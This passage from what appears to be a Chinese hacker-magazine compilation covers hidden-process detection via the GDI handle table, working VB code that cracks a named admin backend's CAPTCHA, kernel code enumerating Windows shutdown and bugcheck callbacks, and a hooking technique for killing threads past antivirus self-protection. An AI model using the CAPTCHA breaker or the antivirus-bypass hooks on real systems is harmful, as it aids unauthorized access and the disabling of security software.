      // 复制该句柄后赋予全部权限，以便调用 ZwQuery* 时顺利进行
      if (NTSTATUS(status) >= 0) then
      begin
        status := TZwDuplicateObject(
          FnZwDuplicateObject(
            hProcessToDup,
            THANDLE(h_info.HandleValue),
            THANDLE(-1),
            @hProcessCur,
            PROCESS_ALL_ACCESS,
            0,
            DUPLICATE_SAME_ATTRIBUTES
          )
        );

        if (NTSTATUS(status) >= 0) then
        begin
          // 查询复制的句柄是否为我们想要的
          status := TZwQueryInformationProcess(
            pFnZwQueryInformationProcess(...)
          );
        end;
      end;
    end;
  end;

  Inc(i);
  h_info := PSYSTEM_HANDLE_TABLE_ENTRY_INFO(
    DWORD(h_info) + SizeOf(TSYSTEM_HANDLE_TABLE_ENTRY_INFO)
  );
end;
```

```pascal
... ProcessBasicInformation, @pbi, SizeOf(pbi), 0);
if (NTSTATUS(status) >= 0) then
begin
  if (ProcessId = pbi.UniqueProcessId) then
  begin
    status := TZwDuplicateObject(
      pFnZwDuplicateObject(
        hProcessToDup,
        THANDLE(h_info.HandleValue),
        THANDLE(-1),
        @hProcessToRet,
        dwDesiredAccess,
        OBJ_INHERIT,
        DUPLICATE_SAME_ATTRIBUTES
      )
    );

    TZwClose(pFnZwClose)(hProcessCur);
    TZwClose(pFnZwClose)(hProcessToDup);
    Result := hProcessToRet;
    Exit;
  end;
end;

TZwClose(pFnZwClose)(hProcessCur);
TZwClose(pFnZwClose)(hProcessToDup);
...
Inc(i);
h_info := PSYSTEM_HANDLE_TABLE_ENTRY_INFO(
  DWORD(h_info) + SizeOf(TSYSTEM_HANDLE_TABLE_ENTRY_INFO)
);
end;
Result := 0;
end;
```

为了结束进程，在内核层使用 **PspTerminateProcess** 函数结束进程。由于 `PspTerminateProcess` 函数未导出，因此通过查找该函数的特征硬编码（Windows XP_SP3 系统）来获取该函数的首地址。读者若想详细了解请自行查看所提供的内核程序源代码。

下面我使用两种常见的内核隐藏进程的方法：Hook `ZwQuerySystemInformation` 函数、DKOM 隐藏进程。然后再使用该编写好的工具在 Ring3 下进行进程检测，通过查询 GDI 句柄表所得的进程列表和使用 `PSAPI.LIB` 导出的查询进程函数所得的进程列表进行一一对比。在 GDI 句柄表能查询到的进程而通过 `PSAPI.LIB` 导出的查询进程函数查询不到的进程，我们就认为这是隐藏进程，用红色标示出来，检测示意图如图 1 所示。

图1

其检测的结果和使用冰刃检测进程的结果是一样的效果，隐藏的进程“无所遁形”地被检测到。有兴趣的还可以使用该工具对别的进程隐藏方式进行检测。

虽然这种检测进程的方法十分有效，但是也存在以下不足，下面我给大家说明一下。首先，由于在早期 NT 中系统实现 GDI 与 USER 对象时并未考虑会话的情况，因此 smss.exe 这个进程（会话管理子系统，负责启动用户会话的系统进程）在 GDI 句柄表中是不存在的，使用该软件无法检测到 smss.exe 进程。其次，System 这个进程 PID 一直为 4，但是在 GDI 句柄表获取的值为 18。

再次，还有我所编写的 My_OpenProcess 函数，虽然已经绕过绝大部分自身 HOOK ZwOpenProcess 的软件，但是对于 Rootkit Unhooker 这个 inline NtDuplicateObject 函数的 AntiRootkit 工具是无用的，因此无法获取进程的全路径。有兴趣的黑防读者可以针对我所提到的一些瑕疵继续修改该软件。在这里补充说一句，几乎不存在绝对完整、正确、可信的进程检测方法，也许不久病毒和恶意程序也会修改 GDI 句柄表来隐藏自己，那这种检测进程的方式也就不可信了，因此只存在相对安全可信的检测。因为一旦新的检测方法出来，相应的 RootKit 也会随之而生。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VB  
关键词：VB、验证码

## VB验证码识别方法之数据分类和匹配

文/图  李劭杰

我曾介绍过背景干扰色规则数字验证码的识别，因为数字只有 10 个，我们采用了逐个文件对比数据的方式匹配。然而，当验证码中还包含英文字母，字符总数就从 10 个增加到 36 个，再采用逐个文件对比的方式效率很低。为了解决这个问题，本文介绍将验证码数据分类保存，匹配时只需要与一个类别中的一个或多个文件进行对比，程序效率将大大提高。以 *** 网站管理系统后台的验证码为例（验证码地址为：http://admin.asp99.cn/jy55/Include/CheckCode/CheckCode.asp，动易 Site Weaver 后台同样采用此验证码），如图 1 所示。

图1

##### 分析验证码

- 它的大小为 60 像素×15 像素，由 6 个英文字母或数字组成；
- 字符的颜色偏深，背景色相对浅，且为随机纯色；
- 6 个字符的位置是相对固定的，但纵向并不居中显示。

分析颜色 RGB 值，我们知道颜色越深，RGB 颜色值越小；颜色越浅，RGB 颜色值越大。浅色背景的 RGB 值集中在 120 以上，采用筛选颜色 RGB 值的方法可以将纯色背景去除。

此外，添加一个 Microsoft Internet Transfer 控件，用于下载验证码，Name 默认为 Inet1；添加一个用于显示识别结果的 Label，Name 设置为 lblResult；再添加一个用于输入字符的 TextBox，Name 设置为 TxtChar。

去掉纯色背景后可把有用像素数据写入文件中，但这里我们先对其进行分类操作。分类的依据是字符实际所占的长和宽，也就是得到字符本身所占最小矩形的大小，示例如图 2 所示，我们可以看到“黑”字所占的最小矩形。

识别时首先计算字符所占的长和宽，然后在对应的文件夹下进行匹配，这样就大大减小了工作量；因为是精确匹配，我们判断匹配成功的依据是该矩形内所有点 100% 匹配成功。

##### 编码实现

程序窗口基本布局如图 3 所示。

添加 4 个按钮如表 1 所示。

表1

| Name | Caption |
|---|---|
| CmdDown | 下载图片 |
| CmdNoise | 转黑白色 |
| CmdWriteData | 写入数据文件 |
| CmdResult | 识别验证码 |

2 个 PictureBox 从上至下分别是 Picture1、Picture2。将它们的 AutoRedraw 属性设置为 True，同时将 ScaleMode 属性设置为 3-Pixel，以便使用像素作为长度单位量度。

主窗体中的代码如下所示：

```vb
Option Explicit

Private Sub Form_Load()
    ' 窗体载入时将所有PictureBox统一到验证码大小
    ' Picture1默认载入一个验证码
    Picture1.AutoRedraw = True
    Picture2.AutoRedraw = True
    Picture2.Height = Picture1.Height
    Picture2.Width = Picture1.Width
End Sub

Private Sub CmdDown_Click()
    ' 下载按钮暂时变为不可用
    CmdDown.Enabled = False
    ' 声明用于保存图片二进制数据的数组
    Dim picBytes() As Byte
    picBytes = Inet1.OpenURL("http://...")
    While Inet1.StillExecuting
        DoEvents
    Wend
    ' 将图像数据写入Test.bmp文件
    Open App.Path & "\Test.bmp" For Binary As #1
    Put #1, , picBytes
    Close #1
    ' 将Test.bmp载入到Picture1中
    Picture1.Picture = LoadPicture(App.Path & "\Test.bmp")
    ' 按钮恢复可用
    CmdDown.Enabled = True
End Sub

Private Sub CmdNoise_Click()
    Picture2.Cls
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    ' 逐点扫描并转为黑白
    For Y = 0 To Picture1.ScaleHeight - 1
        For X = 0 To Picture1.ScaleWidth - 1
            Ret = ColorRGB(Picture1.Point(X, Y))
            ' RGB任意值小于120则置为黑色
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                Picture2.PSet (X, Y), vbBlack
            End If
        Next X
    Next Y
End Sub

Private Sub CmdWriteData_Click()
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    ' SmallX表示小的X坐标，BigX为大的X坐标
    Dim SmallX As Integer
    Dim BigX As Integer
    Dim SmallY As Integer
    Dim BigY As Integer

    ' 声明并创建FSO对象
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")

    ' Index从0循环到50，步长为10
    Dim Index As Integer
    For Index = 0 To 50 Step 10
        ' 初始化SmallX和SmallY为较大值，BigX和BigY为较小值
        SmallX = Index + 10
        SmallY = 14
        BigX = Index
        BigY = 0

        ' 循环求X/Y坐标最小值和最大值
        For Y = 0 To 14
            For X = Index To Index + 9
                Ret = ColorRGB(Picture1.Point(X, Y))
                If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                    If X < SmallX Then
                        SmallX = X
                    ElseIf X > BigX Then
                        BigX = X
                    End If

                    If Y < SmallY Then
                        SmallY = Y
                    ElseIf Y > BigY Then
                        BigY = Y
                    End If
                End If
            Next X
        Next Y

        ' 如果文件夹不存在则创建之
        ' 文件命名是 (BigX-SmallX)x(BigY-SmallY)
        If Not FSO.FolderExists(App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY) Then
            FSO.CreateFolder (App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY)
        End If

        ' 将字符数据写入文件
        ' Mid(TxtChar, Index / 10 + 1, 1) 用于返回字符
        Open App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY & "\" & Mid(TxtChar, Index / 10 + 1, 1) & ".ini" For Output As #1
        Print #1, "[CharData]"
        For Y = SmallY To BigY
            For X = SmallX To BigX
                Ret = ColorRGB(Picture1.Point(X, Y))
                If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                    Print #1, X - SmallX & "_" & Y - SmallY & "=1"
                Else
                    Print #1, X - SmallX & "_" & Y - SmallY & "=0"
                End If
            Next X
        Next Y
        Close #1
    Next Index

    Set FSO = Nothing
End Sub

Private Sub CmdResult_Click()
    lblResult.Caption = "识别结果：" & _
        GetOneChar(0, 9) & GetOneChar(10, 19) & GetOneChar(20, 29) & _
        GetOneChar(30, 39) & GetOneChar(40, 49) & GetOneChar(50, 59)
End Sub
```

上述代码中，写入字符数据时用字符所占矩形建立一个单独的坐标系统，而不是以整个验证码作为坐标系统，这一点请读者注意。写入的字符数据根据分类保存到不同的文件夹中，如图 4 所示。

图4

函数 `ColorRGB` 用于将十六进制颜色转换为 `R G B` 值，并返回到一个数组中。新建一个标准模块 `ModuleGetRGB`，写入下述代码：

```vb
Public Function ColorRGB(Color As Long) As Byte()
    Const ByN As Integer = 256
    Const ByN2 As Long = 65536
    Dim A(2) As Byte
    A(0) = (Color Mod ByN)
    A(1) = ((Color Mod ByN2) \ ByN)
    A(2) = (Color \ ByN2)
    ColorRGB = A
End Function
```

识别验证码的函数为 `GetOneChar`，它有两个参数：起始 X 坐标和结束 X 坐标。新建一个标准模块 `ModuleGetOneChar`，写入下面的代码：

```vb
Option Explicit

Public Function GetOneChar(ByVal Left, ByVal Right) As String
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    ' 匹配的点计数变量 MatchCount
    Dim MatchCount As Integer

    Dim SmallX As Integer
    Dim BigX As Integer
    Dim SmallY As Integer
    Dim BigY As Integer

    ' 声明并创建 FSO 对象
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")

    ' 初始化 SmallX, SmallY, BigX, BigY 的值
    SmallX = Right
    SmallY = 14
    BigX = Left
    BigY = 0

    ' 获取字符库的 X 坐标、Y 坐标的最小值和最大值
    For Y = 0 To 14
        For X = Left To Right
            Ret = ColorRGB(MainForm.Picture1.Point(X, Y))
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                If X < SmallX Then
                    SmallX = X
                ElseIf X > BigX Then
                    BigX = X
                End If

                If Y < SmallY Then
                    SmallY = Y
                ElseIf Y > BigY Then
                    BigY = Y
                End If
            End If
        Next X
    Next Y

    ' 启用文件夹对象 mFolder，并返回需要进行数据匹配的文件夹
    Dim mFolder As Object
    Dim mFile As Object
    Set mFolder = FSO.GetFolder(App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY)

    ' 对文件夹中的文件逐个进行匹配
    For Each mFile In mFolder.Files
        MatchCount = 0
        For Y = SmallY To BigY
            For X = SmallX To BigX
                Ret = ColorRGB(MainForm.Picture1.Point(X, Y))
                If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                    If GetValueFromIni(mFile, "CharData", X - SmallX & "_" & Y - SmallY) = "1" Then
                        MatchCount = MatchCount + 1
                    End If
                Else
                    If GetValueFromIni(mFile, "CharData", X - SmallX & "_" & Y - SmallY) = "0" Then
                        MatchCount = MatchCount + 1
                    End If
                End If
            Next X
        Next Y

        ' 如果匹配数量达到100%，则匹配成功并跳出循环
        If MatchCount = (BigX - SmallX + 1) * (BigY - SmallY + 1) Then
            ' 将 mFile.Name 中的 .ini 去掉
            GetOneChar = Replace(mFile.Name, ".ini", "")
            Set FSO = Nothing
            Exit Function
        End If
    Next mFile

    Set FSO = Nothing
End Function
```

当文件夹中一个文件的数据 100% 匹配时，程序跳出循环。每次进行匹配之前，请将 MatchCount 变量清 0。

将用于 INI 文件操作的函数 GetValueFromIni 写入标准模块 INIFileOperateModule 中：

```vb
' 读取INI值
Public Declare Function GetPrivateProfileString Lib "kernel32" Alias "GetPrivateProfileStringA" (ByVal lpApplicationName As String, ByVal lpKeyName As Any, ByVal lpDefault As String, ByVal lpReturnedString As String, ByVal nSize As Long, ByVal lpFileName As String) As Long

' 自定义函数读取INI信息
Public Function GetValueFromIni(ByVal FileName As String, ByVal AppName As String, ByVal KeyName As String) As String
    Dim Buff As String
    Buff = Space(100) ' 分配100字符的缓存大小
    GetPrivateProfileString AppName, KeyName, vbNullString, Buff, 100, FileName
    GetValueFromIni = Left(Buff, InStr(Buff, Chr(0)) - 1)
End Function
```

运行上面编写的程序，结果如图 5 所示。

图5

##### 小结

识别字符数目较多的形状规则验证码，可采用以下基本思路：首先找到文字所在的矩形区域，将矩形区域中有用像素的坐标按一定条件筛选并分类，写入到文件中用于匹配；匹配时，首先根据设定的条件进行分类，然后仅在该类别下进行数据匹配即可。

由于字符形状是规则的，纯色背景也不具备干扰作用，本例程序识别率为 100%。需要进一步指出的是：对于字符有纵横位移的验证码，该方法识别率同样是 100%，只要两个字符之间没有重合的部分，因为我们可以精确定位文字所在的矩形区域。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程，系统回调，shutdown，bugcheck

## Windows内核bugcheck和shutdown回调的检测

文／图  lq(cqupt)  ljh(cqupt)

Windows 系统回调大致有 shutdown、bugcheck、bugcheckreason、createprocess、createthread、loadimage 以及注册表回调这几种。createprocess、createthread 和 loadimage 在...

##### 编程解析

网上有很多相关资料和代码，而注册表回调我在2009年第7期的《黑防》上曾经写过一篇检测和卸载的文章，后来由于种种原因没有再继续探索 Windows 系统回调的秘密。前不久老兄让我完成这次的 callback 之旅，把缺少的 shutdown、bugcheck 和 bugcheckreason 补充完整。

我们先来看一下注册关机回调的函数原型：

```c
NTSTATUS
IoRegisterShutdownNotification(
  IN PDEVICE_OBJECT DeviceObject
);
```

按照 MSDN 的描述，当系统关机时，真正被调用的函数是驱动的 IRP_MJ_SHUTDOWN 派遣例程。微软只告诉了我们怎么使用这个函数，并没有告诉这个函数是怎样实现注册关机回调功能的，我们先来反汇编看一下。

```text
IoRegisterShutdownNotification 反汇编代码（节选）
- 分配一块大小为 0xE 的内存作为结构体 X
- 将 DeviceObject 保存到结构体偏移
- 调用 ObReferenceObject 增加 DeviceObject 引用计数
- 后续插入通知队列相关逻辑
```

```text
nt!IopNotifyShutdownQueueHead / nt!IopInterlockedInsertHeadList 相关反汇编（节选）
- 将结构体 X 插入到 NotifyShutdown 队列中
- 设置 DeviceObject->Flags |= DO_SHUTDOWN_REGISTERED
```

而 IopInterlockedInsertHeadList 函数则更简单，功能和 InsertHeadList 几乎一致。由此我们可以推出存入 NotifyShutdown 队列之中的结构体如下：

```c
Struct _X {
  LIST_ENTRY List;
  PDEVICE_OBJECT DevObj;
};
```

既然知道了队列以及结构体，剩下的遍历就很简单了。先是获取 IopInterlockedInsertHeadList 地址，我采用的方法是最常见的搜索特征码。

```c
/* 获取 IopNotifyShutdownQueueHead 的原始地址 */
NTSTATUS GetShutdownQueueHeadOffset()
{
    PUCHAR pCurrent = NULL;
    size_t length = 0;
    ULONG Offset = 0;
    int i;

    pCurrent = (PUCHAR)IoRegisterShutdownNotification;
    for (i = 0; i < 100; i++) {
        length = xde_disasm(pCurrent, &code_inst);
        if (length == 0) {
            DbgPrint("Disasm Failed Addr:0x%08X\n", pCurrent);
            pCurrent++;
            continue;
        }
        // ...
    }
}
```

```c
if (*pCurrent == 0xB9)
{
    Offset = *(ULONG *)(pCurrent + 1);
    if (MmIsAddressValid((PVOID)Offset))
    {
        //DbgPrint("ShutdownQueueHeadOffset:0x%08X\n", Offset);
        g_IopNotifyShutdownQueueHead = (PLIST_ENTRY)Offset;
        return STATUS_SUCCESS;
    }
}

pCurrent += length;

return STATUS_UNSUCCESSFUL;
```

```c
BOOLEAN
KeRegisterBugCheckReasonCallback(
    IN PKBUGCHECK_REASON_CALLBACK_RECORD CallbackRecord,
    IN PKBUGCHECK_REASON_CALLBACK_ROUTINE CallbackRoutine,
    IN KBUGCHECK_CALLBACK_REASON Reason,
    IN PUCHAR Component
);
```

其中第一个参数的结构体定义如下：

```c
typedef struct _KBUGCHECK_REASON_CALLBACK_RECORD {
    LIST_ENTRY Entry;
    PKBUGCHECK_REASON_CALLBACK_ROUTINE CallbackRoutine;
    PUCHAR Component;
    ULONG_PTR Checksum;
    KBUGCHECK_CALLBACK_REASON Reason;
    UCHAR State;
} KBUGCHECK_REASON_CALLBACK_RECORD,
 *PKBUGCHECK_REASON_CALLBACK_RECORD;
```

得到地址之后，我们就可以开始遍历了，实现代码如下：

```c
void EnumShutdownCallback()
{
    PDEVICE_OBJECT DevObj = NULL;
    PDRIVER_OBJECT DrvObj = NULL;
    ULONG Dispatch = 0;
    PLIST_ENTRY CurrEntry = NULL;

    DbgPrint("Callback\t\tDrvName\t\tDevObj\n");
    for (CurrEntry = g_IopNotifyShutdownQueueHead->Flink;
         CurrEntry != g_IopNotifyShutdownQueueHead;
         CurrEntry = CurrEntry->Flink)
    {
        DevObj = (PDEVICE_OBJECT)(*(ULONG *)((ULONG)CurrEntry + 8));
        DrvObj = DevObj->DriverObject;
        Dispatch = (ULONG)(DrvObj->MajorFunction[IRP_MJ_SHUTDOWN]);
        DbgPrint("[shutdown]0x%X\t\t%wZ\t\t0x%X\n", Dispatch, &DrvObj->DriverName, DevObj);
    }
}
```

比较值得注意的是，类型为 BugCheckAddPagesCallback 的回调例程只有 Windows Server 2008 及之后的 Windows 版本才支持，所以 Reason 参数在设置为 KbCallbackAddPages 之前一定记得要判断系统版本。反汇编 KeRegisterBugCheckReasonCallback 如下：

```text
kd> u KeRegisterBugCheckReasonCallback l30
nt!KeRegisterBugCheckReasonCallback:
804fa140 8bff            mov edi,edi
804fa142 55              push ebp
804fa143 8bec            mov ebp,esp
804fa145 51              push ecx
804fa146 53              push ebx
804fa147 57              push edi
...
804fa15a e8...           call nt!KiAcquireSpinLock
...
804fa164 38818...        cmp byte ptr [eax+18h],bl
```

需要注意的还是老问题：LIST_ENTRY 是个双向链表，遍历一遍之后又会回到出发点，需要判断是否已经完成遍历一次了。而判断的方法就是随意选取一个结点作为标志结点，当遍历的过程中再一次出现这个标志结点时，就表明我们已经成功地完成了一次遍历。

接着我们来看 BugCheckReasonCallback。注册的函数原型如下：

```text
CallbackRecord->Status
804fa167 7538 jne nt!KeRegisterBugCheckReasonCallback+0x6f
804fa169 8b4d0c mov ecx,dword ptr [ebp+0Ch]
...
CallbackRecord->Component = Component
CallbackRecord->Reason = Reason
CallbackRecord->Checksum = Checksum
CallbackRecord->State = 1
...
nt!KeBugCheckReasonCallbackListHead
...
ret 10h
```

于是，我们枚举的代码就可以如上编写了。

```c
void EnumBugCheckReasonCallback()
{
    ULONG Dispatch = 0;
    PLIST_ENTRY CurrEntry = NULL;
    CurrEntry = &KeBugCheckReasonCallbackListHead->Flink;
    do {
        Dispatch = *(ULONG *)((ULONG)CurrEntry + 0x8);
        DbgPrint("BugCheckReason 0x%X PCALLBACK_RECORD 0x%X\n", Dispatch, CurrEntry);
        CurrEntry = CurrEntry->Flink;
    } while (CurrEntry != &KeBugCheckReasonCallbackListHead);
}
```

bugcheck 检测部分的代码与 bugcheckreason 很像，就不重复贴出来浪费版面了，最终的检测结果如图所示。



从图1中可以看出，代码检测结果和 XueTr 的结果完全一致。当然，我所写的这份代码主要是阐述检测的思路，细节上还有不少问题没有考虑到，比如说没有考虑到函数被 Hook 的情况，特征码搜索并没有考虑跨平台的情况等。大家有时间有兴趣可以完善一下。有了这些检测的结果，要卸载或者删除相应的回调也就很容易了。

本文涉及的驱动代码在 WDK6001.18002 + Windows XP SP2 下编译通过，在 Windows XP SP2 上加载并成功实现全部功能。大家如果还有什么问题，欢迎来黑防论坛与我讨论，我的论坛 ID 是 jfh_ccupt。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程，结束线程，Ring3

#### WS 方法结束线程

文/syf



虽然结束线程在《黑客防线》上已被多次提过，但本文将介绍一种新的 W.S 方法结束线程，可以突破目前所有的 ARK/AV 的自我保护。一般来说，PspTerminateThreadByPointer 会这样来结束线程（给线程插入 APC 来让线程自行了断）：

```c
// 摘自 WIN2K SRC
KeInitializeApc(
    ExitApc,
    &Thread->Tcb,
    OriginalApcEnvironment,
    PspExitSpecialApc,
    // PspExitSpecialApc 会调用 PspExitThread 让
    // 进程自行了断
    NULL,
    PspExitNormalApc,
    KernelMode,
    ULongToPtr(ExitStatus)
    // Sundown ExitStatus is zero-extended
);
if (!KeInsertQueueApc(ExitApc, ExitApc, NULL, 2)) {
    ExFreePool(ExitApc);
    return STATUS_UNSUCCESSFUL;
}
```

我们知道 ObOpenObjectByPointer 的调用是很频繁的，那么我们可以 HOOK 此函数，然后在伪函数内判断调用的线程是否是我们要结束的，如果是则直接 PspExitThread，伪代码如下：

```c
NTSTATUS MyObOpenObjectByPointer(IN PVOID Object, IN ULONG HandleAttributes, IN PACCESS_STATE PassedAccessState, IN ACCESS_MASK DesiredAccess, IN POBJECT_TYPE ObjectType, IN KPROCESSOR_MODE AccessMode, OUT PHANDLE Handle)
{
    if ((ULONG)PsGetCurrentThread == MyThread)
    {
        PspExitThread(STATUS_SUCCESS);
        return 0;
    }
    return RealObOpenObjectByPointer(Object, HandleAttributes, PassedAccessState, DesiredAccess, ObjectType, AccessMode, Handle);
}
```

其实，PspTerminateThreadByPointer 中还有一个如下的判断：

```c
// 摘自 WIN2K SRC
if (Thread == PsGetCurrentThread()) {
    // 如果是自杀
    ObDereferenceObject(Thread);
    PspExitThread(ExitStatus);
}
```

这就表示 PspTerminateThreadByPointer 在结束线程时会判断要结束的线程是否是当前线程（CurrentThread），如果是的话直接……

这样我们便可以在其调用 ObOpenObjectByPointer 时让其自行了断。虽然我们知道了如何结束，但有些 AV 在 PspExitThread 的获取上做了手脚，现在的问题是定位到真实的 PspExitThread。下面介绍几种 PspExitThread 的获取方法及相应的 BYPASS 方法。

- 1. 从已导出函数中用搜索特征码的方法查找。从 PspTerminateSystemThread 中找到 PspTerminateThreadByPointer，然后从 PspTerminateThreadByPointer 中搜索 PspExitThread。思路如下：



搜索特征码 E8，根据公式“当前地址 + 偏移量 + 5 = Call 地址”计算出 `PspTerminateThreadByPointer` 地址。



搜索特征码是 `E8 0C75FF`。这种搜索方法很简单，BYPASS 方法很多也很简单。SyfArK 使用的方法是 EAT HOOK `PsTerminateSystemThread`，伪代码如下：

```c
NTSTATUS MyPsTerminateSystemThread(NTSTATUS Status)
{
    PETHREAD Thread;
    Thread = PsGetCurrentThread();
    if (1 == 0) {
        // just for fun
        __asm {
            push Thread
            push eax
            call MyPspTerminateThreadByPointer
        }
    }
    if ((ULONG)Thread == MyThread) {
        return 0;
    }
    return ((PSTERMINATESYSTEMTHREAD)PsTerminateSystemThread)(Status);
}

NTSTATUS MyPspTerminateThreadByPointer(PETHREAD Thread, NTSTATUS Status)
{
    if (1 == 0) {
        // ...
    }
}
```

```c
__asm {
    push dword ptr [ebp+0Ch]
    call MyPspExitThread
}

if ((ULONG)Thread == MyThread)
    return 0;

return ((PSPTERMINATETHREADBYPOINTER)
    PspTerminateThreadByPointer)(Thread, Status);

VOID MyPspExitThread(NTSTATUS Status)
{
    PETHREAD Thread;
    Thread = PsGetCurrentThread();
    if ((ULONG)Thread == MyThread)
        ((PSPEXITTHREAD)(PspExitThread))(Status);
}
```

这样便可以误导我们查找到 `MyPspExitThread`，并防御这种结束线程的方法。

（2）堆栈回溯。我们知道 `PspExitThread` 会调用 `KeTerminateThread`。

